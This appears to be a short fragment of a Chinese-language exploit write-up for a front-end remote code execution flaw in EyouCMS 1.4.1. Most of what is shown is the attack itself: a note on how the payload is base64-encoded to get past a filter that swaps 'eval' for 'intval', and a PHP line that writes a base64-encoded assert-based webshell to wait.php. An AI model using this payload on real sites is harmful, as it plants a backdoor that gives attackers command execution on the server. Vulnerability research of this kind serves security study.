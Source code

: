![](resource/Eyoucms1.4.1前台rce/media/rId26.png)

Payload生成方式:

    base64_encode(jsonstring)

eval会被替换成intval，所以我们采用base64加密写入webshell的方式php代码如下：

    file_put_contents("./wait.php",base64_decode("PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg=="));
